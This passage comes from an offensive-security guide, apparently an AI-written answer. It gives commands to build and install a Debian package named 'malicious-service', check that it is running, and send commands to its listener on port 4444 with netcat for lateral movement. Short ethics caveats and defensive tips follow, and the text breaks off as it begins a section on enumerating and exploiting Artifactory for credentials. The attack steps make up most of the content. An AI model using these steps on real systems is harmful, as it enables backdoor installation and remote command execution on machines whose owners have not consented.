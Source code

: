    - **Build the Package:**
     ```bash
     dpkg-buildpackage -us -uc
     ```

   - This command creates a `.deb` package that can be installed on any Debian-based system.

#### 5. **Deploy and Exploit**
   - **Install the Package:**
     ```bash
     sudo dpkg -i ../malicious-service_1.0_amd64.deb
     ```

   - **Verify the Service is Running:**
     ```bash
     systemctl status malicious-service
     ```

   - **Exploit the Service:**
     - From another machine, connect to the service and execute commands:
       ```bash
       echo "whoami" | nc <target-ip> 4444
       ```

### **Considerations and Ethical Concerns**
- **Ethical Use**: Ensure that creating and deploying such a package is done in a controlled and legal environment, such as for educational purposes, penetration testing with permission, or in a lab environment.
- **Detection and Prevention**: Be aware that deploying such packages can be detected by security systems, and building malicious packages is illegal in production environments without explicit authorization.

### **Defensive Measures**
- **Package Signing**: Use signed packages to prevent unauthorized package installations.
- **Monitoring**: Implement logging and monitoring to detect suspicious service installations and activity.
- **Package Verification**: Regularly verify installed packages against known good sources to detect tampering.

This process demonstrates how a malicious APT package could be used to install an exploitable service that could facilitate lateral movement within a network. However, it should only be used responsibly and legally.

## Artifactory

Yes, there are scripts and methods to enumerate Artifactory instances to identify misconfigurations, users, and passwords. Artifactory, being a binary repository manager, can hold sensitive information such as credentials, tokens, and configuration details. Below are some methods and tools to enumerate and exploit Artifactory:

### **1. Enumeration Scripts**

